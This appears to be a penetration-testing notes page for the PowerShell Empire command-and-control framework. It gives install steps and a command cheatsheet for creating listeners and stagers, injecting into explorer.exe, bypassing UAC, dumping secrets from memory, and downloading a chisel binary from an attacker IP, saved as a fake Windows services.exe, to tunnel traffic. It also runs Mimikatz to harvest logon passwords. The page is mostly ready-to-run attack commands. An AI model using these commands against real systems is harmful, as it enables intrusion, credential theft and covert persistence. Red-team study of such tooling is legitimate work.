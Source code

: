 # Empire

* [https://xakep.ru/2020/06/03/powershell-empire/](https://xakep.ru/2020/06/03/powershell-empire/)




## Install

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)

```
$ git clone --recursive https://github.com/BC-SECURITY/Empire.git
$ cd Empire
$ sudo ./setup/install.sh
$ sudo poetry install
```

To compile C# agents ([Covenant](https://github.com/cobbr/Covenant) and [Sharpire](https://github.com/0xbadjuju/Sharpire)) [install](https://docs.microsoft.com/en-us/dotnet/core/install/linux-debian#supported-distributions) .NET SDK 3.1:

```
$ wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
$ sudo dpkg -i packages-microsoft-prod.deb
$ rm packages-microsoft-prod.deb

$ sudo apt-get update; \
  sudo apt-get install -y apt-transport-https && \
  sudo apt-get update && \
  sudo apt-get install -y dotnet-sdk-3.1

$ sudo apt-get update; \
  sudo apt-get install -y apt-transport-https && \
  sudo apt-get update && \
  sudo apt-get install -y aspnetcore-runtime-3.1
```




## Run

```
$ ./ps-empire server [--restip 127.0.0.1 --username snovvcrash --password 'Passw0rd!']
$ ./ps-empire client
```

Reset the database:

```
$ ./ps-empire server --reset
```




## Cheatsheet

Prepare a listener:

```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: uselistener/http) > set Name http1
(Empire: uselistener/http) > set Host 10.10.13.37
(Empire: uselistener/http) > set Port 80
(Empire: uselistener/http) > execute
```

Generate a PowerShell stager:

```
(Empire: listeners) > usestager multi/launcher
(Empire: usestager/multi/launcher) > set Listener http1
(Empire: usestager/multi/launcher) > set OutFile pwsh.ps1
(Empire: usestager/multi/launcher) > generate
```

Generate a C# stager:

```
(Empire: listeners) > useplugin csharpserver
(Empire: useplugin/csharpserver) > set status start
(Empire: useplugin/csharpserver) > execute
(Empire: useplugin/csharpserver) > usestager windows/csharp_exe
(Empire: usestager/windows/csharp_exe) > set Listener http1
(Empire: usestager/windows/csharp_exe) > set OutFile csharp.exe
(Empire: usestager/windows/csharp_exe) > generate
```

Re-inject into an interactive process (e.g., `explorer.exe`):

```
(Empire: listeners) > agents
(Empire: agents) > rename LKH7SD3V A1
(Empire: agents) > interact A1
(Empire: A1) > sysinfo
(Empire: A1) > shell Get-Process explorer
(Empire: A1) > psinject exch <EXPLORER_EXE_PID>
```

Bypass UAC to get a high integrity process:

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule privesc/bypassuac_fodhelper
(Empire: powershell/privesc/bypassuac_fodhelper) > set Listener http1
(Empire: powershell/privesc/bypassuac_fodhelper) > run
```

Execute a PowerShell script from memory (e.g., [`Invoke-SharpSecDump.ps1`](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpSecDump.ps1)):

```
(Empire: A1) > shell whoami /priv
(Empire: A1) > usemodule management/invoke_script
(Empire: powershell/management/invoke_script) > set ScriptPath /home/snovvcrash/tools/dump.ps1
(Empire: powershell/management/invoke_script) > set ScriptCmd Invoke-SharpSecDump -C "-tager=127.0.0.1"
(Empire: powershell/management/invoke_script) > run
```

Start a process in the background (e.g., [chisel](https://github.com/jpillora/chisel) SOCKS proxy):

```
(Empire: A1) > shell IWR http://10.10.13.37:8080/chisel.exe -OutFile C:\Windows\services.exe -UseBasicParsing
(Empire: A1) > shell Start-Process -NoNewWindow -FilePath C:\Windows\services.exe -ArgumentList "client 10.10.13.37:8000 R:socks"
```

Invoke a custom Mimikatz command:

```
(Empire: A1) > usemodule credentials/mimikatz/command
(Empire: powershell/credentials/mimikatz/command) > set Command '"privilege::debug" "ts::logonpasswords" "exit"'
(Empire: powershell/credentials/mimikatz/command) > run
```




## Customizing Agents

* [https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/](https://s3cur3th1ssh1t.github.io/Customizing_C2_Frameworks/)
